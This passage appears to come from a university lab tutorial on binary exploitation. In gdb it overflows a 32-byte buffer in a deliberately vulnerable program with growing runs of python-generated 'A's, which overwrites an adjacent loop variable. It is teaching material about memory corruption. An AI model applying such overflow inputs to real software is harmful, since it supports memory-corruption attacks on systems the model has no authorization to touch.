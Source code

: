 Note that in gdb we can use backticks (\`) like in the shell to do
computations. I am using python to generate 32 A's. You can see this by
running the same python command in the terminal:

``` example
user@si485H-base:2.3$ `python -c "print('A'*32)"`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

The `-c` says to execute the single following line as a python command.

Anyway, back to the gbd terminal, if we fill the buffer with 32 bytes,
things are ok, and the behavior is normal. Let's see what happens if we
write 33 A's.

``` example
(gdb) run 5 `python -c "print('A'*33)"`
Starting program: /home/user/git/si485-binary-exploits/lab/01/vulnerable 5 `python -c "print('A'*33)"`
[Inferior 1 (process 5918) exited normally]
```

Nothing happens! We get no prints. That's because we now wrote the ASCII
value of 'A' to i, which is 65 and greater than 5. But we can change the
command line argument and you'll start to see something happen:

``` example
(gdb) run 66 `python -c "print('A'*33)"`
Starting program: /home/user/git/si485-binary-exploits/lab/01/vulnerable 66 `python -c "print 'A'*33"`
65 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAB
[Inferior 1 (process 5927) exited normally]
```

Now we're getting somewhere. The variable i is equal to 65 and we should
print the string 66 times, but we only do so once. We also see that
we've somehow gained a 'B' to the output? That's because 65+1 is 66 and
in ASCII 66 is B.

We can continue this little experiment further ... keep smashing that
stack.

``` example
gdb) run 66 `python -c "print('A'*34)"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/git/si485-binary-exploits/lab/01/vulnerable 66 `python -c "print 'A'*34"`
[Inferior 1 (process 5937) exited normally]
(gdb) run 66 `python -c "print 'A'*34"`
Starting program: /home/user/git/si485-binary-exploits/lab/01/vulnerable 66 `python -c "print 'A'*34"`
[Inferior 1 (process 5940) exited normally]
(gdb) run 66 `python -c "print 'A'*35"`
Starting program: /home/user/git/si485-binary-exploits/lab/01/vulnerable 66 `python -c "print 'A'*35"`
[Inferior 1 (process 5943) exited normally]
(gdb) run 66 `python -c "print 'A'*36"`
Starting program: /home/user/git/si485-binary-exploits/lab/01/vulnerable 66 `python -c "print 'A'*36"`
[Inferior 1 (process 5946) exited normally]
(gdb) run 66 `python -c "print 'A'*37"`
Starting program: /home/user/git/si485-binary-exploits/lab/01/vulnerable 66 `python -c "print 'A'*37"`
[Inferior 1 (process 5949) exited normally]
(gdb) run 66 `python -c "print 'A'*38"`
Starting program: /home/user/git/si485-binary-exploits/lab/01/vulnerable 66 `python -c "print 'A'*38"`
[Inferior 1 (process 5952) exited normally]
```